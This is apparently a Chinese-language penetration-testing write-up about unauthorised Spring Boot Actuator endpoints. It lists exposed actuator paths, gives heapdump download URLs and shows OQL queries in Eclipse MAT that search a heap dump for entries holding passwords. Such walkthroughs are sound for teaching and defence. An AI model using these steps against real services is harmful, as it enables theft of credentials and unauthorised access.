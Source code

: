 ```
目标站点开启了 configprops 端点的未授权访问,路径为：http://{Vuln_Address}:8086/{api_interface_url2}/actuator/configprops
目标站点开启了 health 端点的未授权访问,路径为：http://{Vuln_Address}:8086/{api_interface_url2}/actuator/health
目标站点开启了 info 端点的未授权访问,路径为：http://{Vuln_Address}:8086/{api_interface_url2}/actuator/info
目标站点开启了 mappings 端点的未授权访问,路径为：http://{Vuln_Address}:8086/{api_interface_url2}/actuator/mappings
目标站点开启了 metrics 端点的未授权访问,路径为：http://{Vuln_Address}:8086/{api_interface_url2}/actuator/metrics
```
而我们从上面信息可知，存在的SpringBoot路由分别为：`根目录/`、`{api_interface_url1}`、`{api_interface_url2}`，所以言归正传，返回到我们的主角：heapdump
下载路径即：
```
http://{Vuln_Address}:8086/actuator/heapdump
http://{Vuln_Address}:8086/{api_interface_url1}/actuator/heapdump
http://{Vuln_Address}:8086/{api_interface_url2}/actuator/heapdump
```
当然，所有的渗透操作都是在此端口上进行；继续往下。

---

## 二：HEAPDUMP文件分析历程
文件信息如下：
```
% file src-1520-heapdump
src-1520-heapdump: Java HPROF dump, created Mon Oct 12 11:14:25 2020
```
File Viewer:

![7lAD6SympjstWKX.jpg](https://image.yjs2635.xyz/images/2022/02/20/7lAD6SympjstWKX.jpg)


### 2x01 分析工具MAT

>OQL是用于查询Java堆的类SQL查询语言。OQL允许过滤/选择从Java堆中获取的信息；
>虽然HAT已经支持预定义的查询，例如“显示类X的所有实例”，但OQL增加了更多的灵活性；
>OQL基于JavaScript表达式语言。

打开MAT选择打开headump文件，打开加载完毕选择OQL执行；

![L7MAfUOoCdti4vI.jpg](https://image.yjs2635.xyz/images/2022/02/20/L7MAfUOoCdti4vI.jpg)

### 2x02 分析语法

```java
select <JavaScript expression to select>
[ from [instanceof] <class name> <identifier>
[ where <JavaScript boolean expression to filter> ] ]
```
部分OQL分析语句实例展示：
- `select * from java.util.LinkedHashMap$Entry x WHERE (toString(x.key).contains("password"))`；
    - 选择寻找hashmap中所有key元素中存在password值并展示出，如下所示自不必多说：     
![4wZPJlnoKLz1RaE.jpg](https://image.yjs2635.xyz/images/2022/02/20/4wZPJlnoKLz1RaE.jpg)
